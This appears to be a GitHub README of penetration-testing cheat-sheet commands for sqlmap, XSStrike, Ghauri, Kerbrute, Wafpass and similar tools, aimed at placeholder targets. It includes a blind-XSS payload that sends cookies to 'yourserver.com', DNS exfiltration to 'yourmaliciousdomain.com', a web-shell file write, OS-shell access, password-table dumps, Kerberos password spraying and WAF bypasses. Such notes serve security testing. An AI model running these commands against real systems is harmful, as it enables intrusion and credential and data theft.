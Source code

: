 # Tools-Notes
************************--Notes--************************


--SQLMC--
Normal user 
Basic Command: sqlmc -u http://example.com -d 2 -o Output_file

--------------------------------------------------------------------------------------------------------------



--Xsstrike--

Basic Command:  python3 xsstrike.py -u http://example.com 

Scanning a List of URLs: python3 xsstrike.py --file urls.txt

Crawl Mode: python3 xsstrike.py --crawl -u http://example.com/

Use a Proxy: python3 xsstrike.py -u "http://example.com/" --proxy http://127.0.0.1:8080

Use a Custom User-Agent: python3 xsstrike.py -u "http://example.com/" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"

Specify Cookies: python3 xsstrike.py -u "http://example.com/" --cookie "sessionid=abc123; user=admin"

Specify HTTP Headers: python3 xsstrike.py -u "http://example.com/" --headers "Authorization: Bearer token123"

Use Fuzzing Mode: python3 xsstrike.py -u "http://example.com/search.php?q=test" --fuzzer

Blind XSS: python3 xsstrike.py -u "http://example.com/search.php?q=test" --payload "<script>new Image().src='http://yourserver.com/callback?c='+document.cookie;</script>"

--------------------------------------------------------------------------------------------------------------


--Sqlmap--

Basic Commands: sqlmap -u http://example.com/page.php?id=1

Request Method (GET/POST): sqlmap -u "http://example.com/page.php?id=1" --method=POST --data="username=admin&password=admin"

Specify HTTP Headers (User-Agent, Referer, Cookie, etc.): sqlmap -u "http://example.com/page.php?id=1" --headers="User-Agent: Mozilla/5.0, Referer: http://google.com"
                                                                                                          OR
sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=123456789"

Database Enumeration: sqlmap -u "http://example.com/page.php?id=1" –dbs

Enumerate Tables: sqlmap -u "http://example.com/page.php?id=1" -D targetdb –tables

Dump a Table’s Data: sqlmap -u "http://example.com/page.php?id=1" -D targetdb -T users –dump

Specify SQL Injection Techniques: sqlmap -u "http://example.com/page.php?id=1" --technique=BEUST
•	B: Boolean-based Blind
•	E: Error-based
•	U: UNION query-based
•	S: Stacked queries
•	T: Time-based Blind

Tamper Scripts to Bypass WAF/Filters: sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment
•	You can list all tamper scripts with: sqlmap --list-tampers

Crawling Websites: sqlmap -u "http://example.com/" --crawl=5 --level=3

Bypassing WAF with Random User-Agent: sqlmap -u "http://example.com/page.php?id=1" --random-agent

Scanning with a Proxy: sqlmap -u "http://example.com/page.php?id=1" --proxy=http://127.0.0.1:8080

SQL Injection with Time Delays: sqlmap -u "http://example.com/page.php?id=1" --time-sec=10

Using a Custom Payload: sqlmap -u "http://example.com/page.php?id=1" --payload="1' OR '1'='1"

Specifying Risk and Level: sqlmap -u "http://example.com/page.php?id=1" --level=5 --risk=3
•	--level: Specifies the level of tests. It ranges from 1 to 5 (higher levels perform more tests).
•	--risk: Specifies the risk level, ranging from 1 to 3 (higher risks include potentially destructive actions).

Brute-Forcing the Passwords: sqlmap -u "http://example.com/page.php?id=1" –passwords

Direct SQL Shell on the Target: sqlmap -u "http://example.com/page.php?id=1" --os-shell

Dump Specific Columns from a Table: sqlmap -u "http://example.com/page.php?id=1" -D targetdb -T users -C username,password –dump

Enumerate Users, Privileges, Roles: sqlmap -u "http://example.com/page.php?id=1" –users
•	--users: Lists all database users.
•	--privileges: Retrieves privileges for the database users.
•	--roles: Enumerates roles assigned to the users.

Session Management: sqlmap -u "http://example.com/page.php?id=1" --flush-session

Performing a Blind SQL Injection Test: sqlmap -u "http://example.com/page.php?id=1" --technique=B --level=3 --risk=3

Advanced Enumeration Options: sqlmap -u "http://example.com/page.php?id=1" --columns -D targetdb -T users

DNS-Based Data Exfiltration: sqlmap -u "http://example.com/page.php?id=1" --dns-domain="yourmaliciousdomain.com"

Advanced File Writing/Reading: sqlmap -u "http://example.com/page.php?id=1" --file-write="/path/to/yourfile" --file-dest="/var/www/html/shell.php"

Output to a File: sqlmap -u "http://example.com/page.php?id=1" --batch --output-dir="/your/output/directory/"

--------------------------------------------------------------------------------------------------------------


--Ghauri--

Basic Usage: python3 ghauri.py -u http://example.com/page.php?id=1

Using POST Request: python3 ghauri.py -u "http://example.com/page.php" --data="id=1"
•	--data="id=1" specifies the POST data, indicating that this is a POST request.

Setting Custom User-Agent:  python3 ghauri.py -u "http://example.com/page.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

Specifying Cookies: python3 ghauri.py -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=abcdef123456"

Listing Databases: python3 ghauri.py -u "http://example.com/page.php?id=1" –dbs

Specify an HTTP Method:  python3 ghauri.py -u "http://example.com/page.php?id=1" --method=POST --data="username=admin&password=admin"

Request Timeout:  python3 ghauri.py -u "http://example.com/page.php?id=1" --timeout=30

Blind SQL Injection Detection:  python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=B

Setting Delays for Time-Based SQL Injection: python3 ghauri.py -u "http://example.com/page.php?id=1" --delay=5

Custom HTTP Headers: python3 ghauri.py -u "http://example.com/page.php?id=1" --headers="Authorization: Bearer abc123" 

Injecting into Multiple Parameters: python3 ghauri.py -u http://example.com/page.php?id=1&cat=2

Output to a File: python3 ghauri.py -u "http://example.com/page.php?id=1" --output-file=results.txt

Specify Technique:  python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=BT
•	B: Boolean-based Blind
•	T: Time-based Blind
Setting the Number of Retries:  python3 ghauri.py -u "http://example.com/page.php?id=1" --retries=3

Using Proxy: python3 ghauri.py -u "http://example.com/page.php?id=1" --proxy=http://127.0.0.1:8080

Increasing Verbosity for Debugging: python3 ghauri.py -u "http://example.com/page.php?id=1" –verbose

Tampering or Bypassing Filters:  python3 ghauri.py -u "http://example.com/page.php?id=1" --tamper="space2comment"

Using DNS-Based Data Exfiltration:  python3 ghauri.py -u "http://example.com/page.php?id=1" --dns-domain="yourmaliciousdomain.com"

Commonly Used Combined Commands: python3 ghauri.py -u "http://example.com/page.php" --data="id=1" --user-agent="Mozilla/5.0" --proxy=http://127.0.0.1:8080

Full Scan Using Blind and Time-Based Techniques: python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=BT --verbose --timeout=10

Exfiltrating Data from a Specific Table: python3 ghauri.py -u "http://example.com/page.php?id=1" --technique=B --dbs --dump --table=users

--------------------------------------------------------------------------------------------------------------
 



--Kerbrute--

Check Valid Usernames: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10 usernames.txt

Password Spray Attack: ./kerbrute_linux_amd64 passwordspray -d example.com --dc 192.168.1.10 usernames.txt -p Password123

Brute Force: ./kerbrute_linux_amd64 bruteforce -d example.com --dc 192.168.1.10 usernames.txt passwords.txt

Verbose User Enumeration: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10 usernames.txt -v

User Enumeration with Multi-Threading: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10 usernames.txt --threads 100 

Password Spray with Multiple Passwords: ./kerbrute_linux_amd64 passwordspray -d example.com --dc 192.168.1.10 usernames.txt -P passwords.txt -v

Output to File: ./kerbrute_linux_amd64 userenum -d example.com --dc 192.168.1.10  usernames.txt --output valid_users.txt

User Enumeration with Custom Timeout: ./kerbrute_linux_amd64 userenum -d example.com   --dc 192.168.1.10  usernames.txt --timeout 5s

Brute Force with Debug Mode: ./kerbrute_linux_amd64 bruteforce -d example.com  --dc 192.168.1.10  usernames.txt passwords.txt –debug

--------------------------------------------------------------------------------------------------------------





--Webcopilot--


Specify a Target: webcopilot -u http://example.com

Crawl Website: webcopilot -u "http://example.com" --crawl

Port Scanning: webcopilot -u "http://example.com" –ports

SQL Injection Scan: webcopilot -u "http://example.com" --sqlscan

Cross-Site Scripting (XSS) Scan: webcopilot -u "http://example.com" --xss

Directory Brute-forcing: webcopilot -u "http://example.com" --dirbrute 

Login Brute-Force: webcopilot -u "http://example.com/login" --login --users users.txt --passwords passwords.txt

Bypassing Filters: webcopilot -u "http://example.com" --bypass

Custom User-Agent: webcopilot -u "http://example.com" --user-agent "Mozilla/5.0"

Use a Proxy: webcopilot -u "http://example.com" --proxy http://127.0.0.1:8080

Save Output to a File: webcopilot -u "http://example.com" --output report.txt


--------------------------------------------------------------------------------------------------------------



--Wafpass.--

Specify a Target URL: wafpass -u http://example.com

Basic Payload Testing: wafpass -u "http://example.com" --payload "1' OR '1'='1"

Using Encoding Techniques: wafpass -u "http://example.com" --encode base64

Using Different Tamper Scripts: wafpass -u "http://example.com" --tamper space2comment
            List of Possible Tamper Scripts:
•	space2comment: Replaces spaces with SQL comments.
•	charencode: Encodes characters in hexadecimal.
•	base64encode: Encodes payloads in Base64.
•	between: Inserts SQL comments between SQL keywords.


Testing Multiple WAF Bypass Techniques: wafpass -u "http://example.com" --techniques BT
•	B: Boolean-based techniques.
•	T: Time-based techniques.

Custom Headers for Obfuscation: wafpass -u "http://example.com" --headers "X-Forwarded-For: 127.0.0.1"

Using Different HTTP Methods: wafpass -u "http://example.com" --method POST --data "username=admin&password=admin"

Testing with Custom Payloads: wafpass -u "http://example.com" --payload "<custom payload>"

Testing Using a Proxy: wafpass -u "http://example.com" --proxy http://127.0.0.1:8080

Delay Between Requests: wafpass -u "http://example.com" --delay 3

Verbose Mode for Debugging: wafpass -u "http://example.com" -v

Combining Tamper Scripts and Encoding: wafpass -u "http://example.com" --payload "1' OR '1'='1" --tamper space2comment,between --encode base64

Using Proxy and Custom Headers: wafpass -u "http://example.com" --proxy "http://127.0.0.1:8080" --headers "User-Agent: Mozilla/5.0"

Testing with Delay and Verbose Output: wafpass -u "http://example.com" --delay 5 -v


--------------------------------------------------------------------------------------------------------------



--TorNet--

sudo tornet --interval 5  --count 0 

--------------------------------------------------------------------------------------------------------------


